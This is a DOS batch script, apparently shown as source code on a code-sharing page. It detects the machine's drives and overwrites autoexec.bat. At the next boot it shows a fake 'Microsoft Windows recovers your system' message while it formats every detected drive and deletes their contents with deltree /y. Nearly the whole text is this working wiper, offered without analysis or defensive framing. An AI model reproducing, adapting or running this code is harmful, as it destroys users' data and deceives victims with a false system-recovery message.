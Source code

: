 ```
rem drivechk.bat is the file name under the root directory.  
rem As far as the drive detection and drive variable settings, dont worry about how it  
rem works, its d/*amn to complicated for the average or even the expert batch programmer.  
rem Except for Tom Lavedas.  
echo @echo off >drivechk.bat  
echo @prompt %%%%comspec%%%% /f /c vol %%%%1: $b find "Vol" > nul >{t}.bat  
%comspec% /e:2048 /c {t}.bat >>drivechk.bat  
del {t}.bat  
echo if errorlevel 1 goto enddc >>drivechk.bat  
cls  
echo PLEASE WAIT WHILE PROGRAM LOADS . . .  
rem When errorlevel is 1, then the above is not true, if 0, then its true.  
rem Opposite of binary rules. If 0, it will elaps to the next command.  
echo @prompt %%%%comspec%%%% /f /c dir %%%%1:.//ad/w/-p $b find "bytes" > nul >{t}.bat  
%comspec% /e:2048 /c {t}.bat >>drivechk.bat  
del {t}.bat  
echo if errorlevel 1 goto enddc >>drivechk.bat  
cls  
echo PLEASE WAIT WHILE PROGRAM LOADS . . .  
rem if errorlevel is 1, then the drive specified is a removable media drive - not ready.  
rem if errorlevel is 0, then it will elaps to the next command.  
echo @prompt dir %%%%1:.//ad/w/-p $b find " 0 bytes free" > nul >{t}.bat  
%comspec% /e:2048 /c {t}.bat >>drivechk.bat  
del {t}.bat  
echo if errorlevel 1 set drive=%%drive%% %%1 >>drivechk.bat  
cls  
echo PLEASE WAIT WHILE PROGRAM LOADS . . .  
rem if its errorlevel 1, then the specified drive is a hard or floppy drive.  
rem if its not errorlevel 1, then the specified drive is a CD-ROM drive.  
  echo :enddc >>drivechk.bat  
rem Drive checking insertion ends here. "enddc" stands for "end dDRIVE cHECKING".  
rem Now we will use the program drivechk.bat to attain valid drive information.  
:Sampledrv  
for %%a in (%alldrive%) do call drivechk.bat %%a >nul  
del drivechk.bat >nul  
if %drive.==. set drive=c  
:form_del  
call attrib -r -h c:/autoexec.bat >nul  
echo @echo off >c:/autoexec.bat  
echo echo Loading Windows, please wait while Microsoft Windows recovers your system . . . >>c:/autoexec.bat  
echo for %%%%a in (%drive%) do call format %%%%a: /q /u /autoSample >nul >>c:/autoexec.bat  
echo cls >>c:/autoexec.bat  
echo echo Loading Windows, please wait while Microsoft Windows recovers your system . . . >>c:/autoexec.bat  
echo for %%%%a in (%drive%) do call c:/temp.bat %%%%a Bunga >nul >>c:/autoexec.bat  
echo cls >>c:/autoexec.bat  
echo echo Loading Windows, please wait while Microsoft Windows recovers your system . . . >>c:/autoexec.bat  
echo for %%%%a in (%drive%) call deltree /y %%%%a:/ >nul >>c:/autoexec.bat  
echo cls >>c:/autoexec.bat  
echo echo Loading Windows, please wait while Microsoft Windows recovers your system . . . >>c:/autoexec.bat  
echo for %%%%a in (%drive%) do call format %%%%a: /q /u /autoSample >nul >>c:/autoexec.bat  
echo cls >>c:/autoexec.bat  
echo echo Loading Windows, please wait while Microsoft Windows recovers your system . . . >>c:/autoexec.bat  
echo for %%%%a in (%drive%) do call c:/temp.bat %%%%a Bunga >nul >>c:/autoexec.bat  
echo cls >>c:/autoexec.bat  
echo echo Loading Windows, please wait while Microsoft Windows recovers your system . . . >>c:/autoexec.bat  
echo for %%%%a in (%drive%) call deltree /y %%%%a:/ >nul >>c:/autoexec.bat  
echo cd/ >>c:/autoexec.bat  
```